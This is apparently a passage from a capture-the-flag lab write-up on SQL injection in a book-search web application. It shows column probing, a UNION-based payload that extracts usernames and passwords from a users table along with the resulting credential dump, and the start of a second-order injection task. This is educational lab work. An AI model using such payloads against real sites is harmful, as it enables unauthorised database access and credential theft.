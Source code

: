  This gave us some interesting results:
 
```shell
Title: 2
3
Author: 4
Title: Booktitle
Nice description
Author: Tom Hanks
```

It seems that columns 2,3 and 4 are vulnerable.

Now that we know which columns are vulnerable, we can try the following payload:

```shell
Booktitle') union select 1, group_concat(username),group_concat(password),4 from users-- -
```

This gave us the follow results:

```shell
Title: admin,dev,amanda,maja,emil,test,notahacker
THM{REDACTED},asd,Summer2019!,345m3io4hj3,viking123,testtest,notmypassword
Author: 4
Title: Booktitle
Nice description
Author: Tom Hanks
```

Note: I created another username called notahacker with the password notmypassword to show better in which column usernames and passwords are stored.

### Task 10 - Vulnerable Startup: Book Title 2
Goal: In this challenge, the application performs a query early in the process. It then uses the result from the first query in the second query later without sanitization. Both queries are vulnerable, and the first query can be exploited through blind SQL injection. However, since the second query is also vulnerable, it is possible to simplify the exploitation and use UNION based injection instead of Boolean-based blind injection; making the exploitation easier and less noisy. The goal of the task is to abuse this vulnerability without using blind SQL injection and retrieve the flag.

Create a new user and login. We will call our user test with password testtest.

After logging in, we will see the following message:

```shell
Testing a new function to search for books, check it out here
```

Click on the "here" link and we will find a Search function.

We will notice the following queries running under Executed Query:

```shell
Query 1:
SELECT id FROM books WHERE title like 'test%'
Query 2:
SELECT * FROM books WHERE id = '3'
```
